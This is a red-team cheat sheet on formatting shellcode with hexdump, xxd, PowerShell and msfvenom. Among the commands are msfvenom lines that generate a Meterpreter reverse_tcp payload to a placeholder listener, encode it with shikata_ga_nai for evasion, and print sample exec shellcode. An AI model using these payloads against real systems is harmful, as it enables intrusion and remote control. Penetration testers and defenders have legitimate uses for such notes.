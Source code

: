 # Commands

Search Tag(s): #helpers

## 01 - Unix Shell

To install `hexdump`.

```
$ sudo apt install -y bsdextrautils
```

To install `xxd`.

```
$ sudo apt install -y xxd
```

Hexadecimal C array shellcode.

```
$ hexdump -ve '"\\\x" 1/1 "%02x"' shellcode.bin

$ xxd -i shellcode.bin
```

One line of hex shellcode format.

```
$ od -A n -t x1 -v shellcode.bin | tr -d "[:space:]"

$ basenc -w 0 --base16hex shellcode.bin

$ xxd -p shellcode.bin | tr -d "\n"

$ hexdump -ve '"\" 1/1 "%x"' shellcode.bin
```

## 02 - PowerShell

Read bytes from the shellcode using powershell.

```powershell
PS C:\> $file = "shellcode.bin"

PS C:\> $bytes = [IO.File]::ReadAllBytes($file)
```

C language shellcode format.

```powershell
$shellcode_format = '\x' + (($bytes | ForEach-Object ToString x2) -join '\x')

"`nStandard shellcode format:`n`n" + $shellcode_format | Add-Content ($file + ".b64")`
```

C# shellcode format.

```powershell
$csharpformat = '0x' + (($bytes | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')

$csharpformat = $csharpformat.SubString(0, $csharpformat.Length - 1)

"`nC# formatted shellcode:`n`n" + $csharpformat | Add-Content ($file + ".txt")

$cs_bytes = [System.Text.Encoding]::UTF8.GetBytes($csharpformat)

$cs_b64 = [Convert]::ToBase64($cs_bytes)

"`nBase64 Encoded C# shellcode:`n`n" + $cs_b64 | Add-Content ($file + ".b64")
```

F# shellcode format.

```powershell
$fsharpformat = '0x' + (($bytes | ForEach-Object ToString x2 | ForEach-Object { $_ + 'uy;' }) -join '0x')

$fsharpformat = $fsharpformat.SubString(0, $fsharpformat.Length - 1)

"`nF# formatted shellcode:`n`n" + $fsharpformat | Add-Content ($file + ".txt")
```

## 03 - MSFVenom

^30fd5f

Pipe it through hexdump.

```
$ msfvenom -p linux/x86/exec cmd=whoami -f raw | hexdump -ve '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

Any raw shellcode binary even if it's not related to `metasploit-framework` using via `generic/custom` payload.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin

$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c
```

You can also use a calculator program as a shellcode.

```
$ msfvenom -p generic/custom payloadfile=/path/to/file.exe -a x64 --platform windows -f vba-exe
```

Pipe it through msfvenom.

```
$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9
```

Generate formatted Pascal shellcode.

```
$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-
```

---
## References

- [Red Team Notes: Shellcode Formatter](https://www.redteam.cafe/red-team/shellcode-injection/shellcode-formatter)